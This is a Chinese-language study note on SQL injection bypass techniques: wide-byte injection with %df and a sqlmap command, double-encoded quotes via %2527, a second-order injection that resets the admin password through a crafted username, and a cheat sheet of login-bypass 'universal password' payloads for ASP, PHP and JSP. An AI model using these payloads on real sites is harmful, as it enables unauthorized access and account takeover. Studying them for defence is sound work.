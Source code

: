 # 注入绕过初级
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 宽字节注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: GBK编码原因
![](/assets/1D9686C1BD68278B8BCC54E99EC2B241.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 注入点后添加 %df ('),注意引号位置
![](/assets/56A4F11A60114A0F775184E226B97253.png)
```
    sqlmap的应用:    sqlmap -u "URL%df"
```
![](/assets/WX20190308-163047@2x.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 二次编码注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: %25=%，%27='
![](/assets/819D6BE3ABC9332640A198A04C59DBE3.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 在注入参数后加上 %2527
![](/assets/2FB8757F83C36EA38BE10100CF6E5AFD.png)
![](/assets/F9F1EB8B18B34194EF8874D1070C3F1A.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 二次注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:
![](/assets/272D362F397C7D1EECE826BBA25CFC5A.png) 
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 
```
    适合在能提取数据的地方，例如利用注册信息成 admin'#，密码随意
    在利用找回密码，修改admin的密码
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 万能密码注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:
![](/assets/QQ20190218-182024@2x.png)
![](/assets/87E9A1A4708DED342D6152C1BC75DB04.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法:
```sql
    asp/aspx万能密码: ”or “a”=”a 、‘)or(‘a’=’a 、’or 1=1–、‘OR 1=1%00  
    PHP万能密码:  'or'='or'、 'or 1=1/* 字符型 GPC是否开都可以使用、User: something/Pass: ' OR '1'='1
    JSP万能密码: 1'or'1'='1、admin' OR 1=1/*
    
    https://blog.csdn.net/qq_36512966/article/details/72674794
```







    




